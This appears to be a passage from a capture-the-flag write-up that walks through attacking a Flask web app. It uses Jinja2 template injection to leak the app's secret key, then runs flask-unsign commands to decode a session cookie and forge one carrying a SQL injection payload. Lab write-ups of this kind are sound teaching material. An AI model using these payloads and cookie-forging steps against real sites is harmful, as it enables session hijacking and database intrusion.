 Scanning for directories and subdomains with Gobuster doesn't reveal much. When we register and login, I notice that there's a 10 character limit, we are given a UUID to login with rather than a username, and that our username is reflected back to us after we login with the UUID and password combination. Based on this, there's some sort of database that is associating a UUID to a password and username. Since the login is determined by a UUID being checked by a database, we can't just SQL inject to bypass a login since we need an admin UUID first. So our other option is to work with how our username gets reflected back to us. We can't even try to run PHP code through our username because of the character limit, so let's try some SSTI (Server Side Template Injection). This is essentially placing bad inputs into the template engine that the web server is running to get it to do stuff for us, which can range from just gathering info to RCE. We can test for the backend being Jinja2 through registering our username as `{{7 * 7}}` and then checking the `User Information` tab on the left.

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Spider_2.png?raw=true" class="postImagecontent" width="100%" height="100%" unselectable="on" />

Alright, the website is vulnerable to Jinja2 based SSTI. However, with a 10 character limit, we can't achieve RCE. Since this website has a Jinja2 template, it can either be running Flask or Django which are python based web frameworks. With Flask we can input `{{config}}` as our username to essentially set our username to be a call to the configuration object. And testing this works! We get the following information. 

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 
'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 
'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 
'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 
'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 
'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 
'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 
'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 
'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```

What should catch our eye is the `SECRET_KEY` key in the dictionary, with a value of `Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942`. The way Flask signs session cookies is through a three part structure, separated by periods. 

![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/Spider_3.png?raw=true) 

The left side contains session data which is base64 encoded; this session data varies depending upon the website. The middle is self explanatory. The last part is determined through creating a Sha-1 hash of our session data, current timestamp, and the secret key. So now that we have the secret key, we can deconstruct our cookie for more information. We will use the `flask-unsign` tool for this which can be installed by `pip3 install flask-unsign`. We can then grab our session cookie (by viewing it through inspect elements) and use flask-unsign to decode it. Run the command 
`flask-unsign --decode -c '<cookie>' --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'`
This should return something along the lines of 

```
flask-unsign --decode -c '<cookie>' --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'

{'cart_items': [], 'uuid': '19bb7b62-a29f-4aa4-98de-7381da6c02d5'}
```

Remember how we thought that the website used a database to match our UUID with a username? We can now test for SQL inject now that we have direct access to our UUID. Run this command 
```
flask-unsign --sign -c "{'cart_items': [], 'uuid': '<your uuid from decoding cookie here>\'-- a'}" --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
```